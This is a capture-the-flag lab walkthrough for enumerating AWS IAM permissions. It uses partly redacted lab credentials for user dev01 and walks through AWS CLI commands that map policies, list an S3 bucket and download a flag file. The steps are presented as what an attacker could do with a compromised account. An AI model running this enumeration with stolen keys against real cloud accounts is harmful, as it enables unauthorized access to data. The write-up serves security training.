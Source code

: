 # AWS IAM Enumeration
## Analyze the challenge

The challenge is to perform an AWS IAM enumeration on the `dev01` user and find a flag in an S3 bucket. The lab provides AWS credentials and access keys for the `dev01` user. The approach will involve using the AWS CLI to enumerate the user's permissions, identify accessible S3 buckets, and retrieve the flag.

## Plan of action

1. **Configure AWS CLI:** Set up the AWS CLI with the provided access keys.
2. **Verify Identity:** Use `aws sts get-caller-identity` to confirm the user context.
3. **Enumerate User Policies:** List attached and inline policies for `dev01` using `aws iam list-attached-user-policies` and `aws iam list-user-policies`.
4. **Examine S3 Permissions:** Focus on the inline policy `S3_Access` and understand the S3 permissions granted to `dev01`.
5. **Access S3 Bucket:** Use `aws s3 ls` to list the contents of the `hl-dev-artifacts` bucket.
6. **Retrieve Flag:** Use `aws s3 cp` to download the `flag.txt` file.
7. **Extract Flag:** Read the `flag.txt` file to obtain the flag.


![compromised account](../assets/img/attack-mapped-out.png)

> the image above shows what the attacker could potentially access with this compromised account

## Perform the steps to enumerate the AWS IAM permissions and retrieve the flag.

```bash
# 1. Configure AWS CLI
aws configure
# Enter the following when prompted:
# AWS Access Key ID: xxxxxxxxxxxxxxxNR5LO
# AWS Secret Access Key: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxhtrHq3
# Default region name: us-east-1  (or your preferred region)
# Default output format: json

# 2. Verify Identity
aws sts get-caller-identity

# Expected Output (Account and Arn will vary):
# {
#     "UserId": "AIDA...",
#     "Account": "xxxxxxxx7501",
#     "Arn": "arn:aws:iam::xxxxxxxx57501:user/dev01"
# }

# 3. Enumerate User Policies
aws iam list-attached-user-policies --user-name dev01
# Expected Output:
# {
#     "AttachedPolicies": [
#         {
#             "PolicyName": "AmazonGuardDutyReadOnlyAccess",
#             "PolicyArn": "arn:aws:iam::aws:policy/AmazonGuardDutyReadOnlyAccess"
#         },
#         {
#             "PolicyName": "dev01",
#             "PolicyArn": "arn:aws:iam::xxxxxxxx57501:policy/dev01"
#         }
#     ]
# }

aws iam list-user-policies --user-name dev01
# Expected Output:
# {
#     "PolicyNames": [
#         "S3_Access"
#     ]
# }

# 4. Examine S3 Permissions
aws iam get-user-policy --user-name dev01 --policy-name S3_Access
# Expected Output:
# {
#     "UserName": "dev01",
#     "PolicyName": "S3_Access",
#     "PolicyDocument": {
#         "Version": "2012-10-17",
#         "Statement": [
#             {
#                 "Effect": "Allow",
#                 "Action": [
#                     "s3:ListBucket",
#                     "s3:GetObject"
#                 ],
#                 "Resource": [
#                     "arn:aws:s3:::hl-dev-artifacts",
#                     "arn:aws:s3:::hl-dev-artifacts/*"
#                 ]
#             }
#         ]
#     }
# }

# 5. Access S3 Bucket
aws s3 ls s3://hl-dev-artifacts
# Expected Output:
# 2023-11-21 17:47:46         40 flag.txt

# 6. Retrieve Flag
aws s3 cp s3://hl-dev-artifacts/flag.txt .

# 7. Extract Flag
cat flag.txt
# Expected Output:
# xxxxxxxxxxxxxxxxxxxxxxxxxxxx7514
```